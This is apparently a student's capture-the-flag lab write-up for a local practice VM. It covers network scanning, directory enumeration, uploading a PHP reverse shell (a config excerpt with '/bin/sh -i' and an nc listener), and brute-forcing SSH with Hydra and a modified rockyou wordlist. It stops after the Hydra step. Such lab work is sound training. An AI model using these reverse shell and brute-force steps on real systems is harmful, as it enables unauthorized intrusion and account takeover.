


 Report Labs / Flavio POGGIOLI

## Table of contents

  - [Report Labs / Flavio POGGIOLI](#report-labs--flavio-poggioli)
  - [Table of contents](#table-of-contents)

## VM n°546

Targets : Reconnaissance, brute force, exploit, web, privilege escalation

### 1. Find IP address of the machine

```bash
$ sudo netdiscover -r 10.0.2.0/24
```
  

### 2. List all open ports

We need to determine the open ports and the services running on them using nmap with some options (uniquly ports and secondly enabling default scripts, identifying service versions, and disregarding ping host discovery.).

```bash
$ sudo nmap -p- 10.0.2.9
$ sudo nmap -sC -sV -Pn 10.0.2.9
```  
  

  


Now we can see that theses ports are open (all TCP) :
- port 22 —  OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
- port 80 - Apache httpd 2.4.18 ((Ubuntu))
- port 110 - Dovecot pop3d
- port 143 - Dovecot imapd

### 3. Find vulnerabilities

#### 3.1. Port 80 - HTTP

We can see that the web server is running on port 80, so we can try to find something on it with dirb.

```bash
$ dirb http://10.0.2.9
```

  

Nothing intresting here, so we can try to find something else with Dirsearch.

```bash
$ sudo apt install dirsearch
$ sudo dirsearch -u http://10.0.2.9 -U
```
`-U` is for using the UPPER case letters in wordlist. (hint in the vulnhub description)

  

We can find ROBOTS.txt, so we can try to access it.

In the page we can see 2 things at the top and at the bottom of the page :

  


  


We can try to access the page upload.php, but there is nothing in here...

The other string is more interesting, we don't have any access to this directory, maybe scan it with a tool like dirb or dirsearch.

  


With dirssearch we can find a new upload directory with one page to upload php files and another to upload html files.

  


  


We can try to upload a file to get a reverse shell like the Lab4.
Just insure that the IP address and the port are correct in the port (the kali machine and a random port 8080 for me)
With this script
[Github source of php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

  


```php
set_time_limit (0);
$VERSION = "1.0";
$ip = 'kali-ip';  // CHANGE THIS
$port = 8080;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

We can listen with `nc -v -n -l -p 8080`

We need to access to this url to activate the reverse shell : `http://10.0.2.9/igmseklhgmrjmtherij2145236/upload/php-reverse-shell.php3`

  

With that, we can access to a reverse shell with the user www-data.

Now, we can try to find a way to escalate privileges.
There is a hint in the www-data home directory, so we can try to find something in it.

  


The hint mentions rockyou.txt and sed which is used for searching, replacing, and inserting/deleting text in a .txt document.

We can search other hints in other users in the system.

2 users are in the system : `anna` & `thomas`.

  

anna's directory is not accessible, but we can access to thomas's directory.
nothing in there, just one file interesting, `.todo`

  

In todo file, we can see that thomas has to take a exclamation point to his passwords.

So maybe we can try to add a exclamation point to the password of thomas with sed and exploit it with hydra and rockyou.txt.

```bash
$ cat rockyou.txt | sed 's/$/!/g' > wordlist
```
Now, the new wordlist can be used with Hydra.

```bash
$ hydra -l thomas -P wordlist ssh://10.0.2.9 -t 4
```
-l for login, -p for password list and -t for the tasks in parallel